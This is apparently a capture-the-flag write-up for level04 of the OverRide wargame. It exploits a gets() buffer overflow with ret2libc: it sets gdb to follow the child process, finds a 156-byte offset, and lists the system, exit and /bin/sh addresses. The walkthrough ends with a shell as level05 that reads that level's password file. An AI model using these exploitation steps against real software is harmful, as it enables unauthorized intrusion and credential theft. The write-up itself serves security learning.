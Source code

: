# level04 walkthrough

## the binary
``` shell
level04@OverRide:~$ ./level04 
Give me some shellcode, k
k
child is exiting...
```

## methodology
- ret2libc attack

Since the <code>gets</code> function is vulnerable to buffer overflow, we use it to perform a ret2libc attack. Calculating the offset is quite tricky, as a child process is created in the <code>main</code> function and there's no way for the segfault to occur because the parent is still waiting. However, there is an easy way to bypass this situation:
``` shell
(gdb) set follow-fork-mode child
(gdb) r
Starting program: /home/users/level04/level04 
[New process 5640]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 5640]
0x41326641 in ?? ()
```

Now to the ret2libc:
1. offset = 156 bytes ([Wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator/))
2. <code>system</code> address = 0xf7e6aed0
3. <code>exit</code> address = 0xf7e5eb70
4. <code>/bin/sh</code> address = 0xf7f897ec

Our payload is generated using an attached script.

## flag
``` shell
level04@OverRide:~$ python /tmp/payload04.py > /tmp/flag4
level04@OverRide:~$ cat /tmp/flag4 - | ./level04
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
